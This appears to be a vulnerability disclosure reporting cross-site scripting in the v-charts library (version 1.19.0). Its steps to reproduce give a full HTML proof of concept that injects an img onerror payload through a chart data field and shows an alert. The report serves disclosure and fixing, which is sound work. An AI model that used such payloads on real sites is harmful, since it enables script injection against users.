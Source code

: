 # Description

`v-charts` is vulnerable to `Cross-Site Scripting (XSS)`.

# Steps To Reproduce

Copy the below content and save it into a .html file and open in any browser XSS payload will get executed.
```
<!DOCTYPE html>
<html lang="en">
<head>
  <title>v-charts</title>
</head>
<body>
  <div id="app">
    <ve-line :data="chartData"></ve-line>
  </div>
  <script src="https://cdn.jsdelivr.net/npm/vue/dist/vue.js"></script>
  <script src="https://cdn.jsdelivr.net/npm/echarts/dist/echarts.min.js"></script>
  <script src="https://cdn.jsdelivr.net/npm/v-charts@1.19.0/lib/index.min.js"></script>
  <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/v-charts@1.19.0/lib/style.min.css">
  <script>
    new Vue({
      el: '#app',
      data: function () {
        return {
          chartData: {
        columns: ['ITEM', 'PV'],
        rows: [
          { 'ITEM': 'A', 'PV': 1231 },
          { 'ITEM': 'B', 'PV': 1223 },
          { 'ITEM': 'C', 'PV': 2123 },
          { 'ITEM': 'D"<img src=x onerror=alert("XSS")>', 'PV': 4123 },
          { 'ITEM': 'E', 'PV': 3123 },
          { 'ITEM': 'F', 'PV': 7123 }
        ]
          }
        }
      }
    })
  </script>
</body>
</html>
```
